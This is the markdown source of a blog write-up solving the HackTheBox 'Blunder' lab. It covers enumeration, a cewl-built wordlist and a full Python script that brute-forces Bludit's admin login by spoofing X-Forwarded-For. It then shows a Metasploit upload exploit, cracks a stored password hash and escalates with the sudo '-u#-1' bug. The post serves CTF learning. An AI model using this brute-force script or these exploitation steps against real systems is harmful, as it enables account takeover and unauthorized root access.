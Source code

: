 ```yaml
---
title: Blunder Machine - Writeup
author: Sujit Suryawanshi
date: 2020-07-29 14:10:00 +0800
categories: [HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


![Desktop View]({{ "/assets/img/htb-machines/blunder-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.

<span style="color:#ff5555">This blog is meant for educational purposes only.</span>

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

<p><code class="language-plaintext highlighter-rouge">root@kali:~sudo nmap -sV -sC -T4 10.10.10.191</code></p>

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.

---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---

After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using Ffuf tool.


![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using Ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/htb-machines/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/htb-machines/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit-1.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: User</span></strong>

---

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/htb-machines/blunder-user.png" | relative_url }})

Here we got user.txt.

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

Now it's time for root.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/htb-machines/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/htb-machines/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

<span style="color:#ff5555">**Thanks for reading this writeup and all suggestions are welcome.**</span>
